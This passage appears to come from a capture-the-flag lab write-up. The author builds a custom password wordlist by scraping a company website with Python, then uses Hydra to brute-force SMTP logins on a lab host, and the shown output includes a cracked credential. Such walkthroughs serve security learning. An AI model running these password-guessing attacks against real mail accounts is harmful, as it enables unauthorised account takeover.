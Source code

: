 ## Creating a custom Wordlist via Web Scraping

Realizing that default wordlists might not contain relevant passwords, I wrote a Python scraper to extract words from the company's website for a custom wordlist. The scraper downloads the site, strips HTML tags, extracts all words of at least six letters, converts them to lowercase, removes duplicates, and sorts them:

```python
import requests
from bs4 import BeautifulSoup
import re

url = "https://brownbrick.co"
response = requests.get(url)
soup = BeautifulSoup(response.text, "html.parser")
text = soup.get_text()
words = re.findall(r'\b[a-zA-Z]{6,}\b', text)
unique_words = sorted(set(word.lower() for word in words))
with open("custom_wordlist.txt", "w") as file:
    for word in unique_words:
        file.write(word + "\n")

print(f"Saved {len(unique_words)} words to custom_wordlist.txt")
```


This generated a targeted password list likely to contain words relevant to the organization or product names.

## Successful SMTP Login via Hydra and Custom Wordlist

Using the newly generated wordlist, I launched Hydra again against SMTP:

```console
┌──(kali㉿kali)-[~/Desktop/You got mail]
└─$ hydra -L emails.txt -P custom_wordlist.txt 10.10.217.207 smtp -s 587 -t 16
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-01 14:15:38
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 240 login tries (l:6/p:40), ~15 tries per task
[DATA] attacking smtp://10.10.217.207:587/
[587][smtp] host: 10.10.217.207   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-01 14:15:47
```

This time, **Hydra** discovered a valid login-password pair:

```
[587][smtp] host: 10.10.217.207   login: lhedvig@brownbrick.co   password: bricks
```
The password `bricks` was successfully cracked for the user `lhedvig@brownbrick.co`.
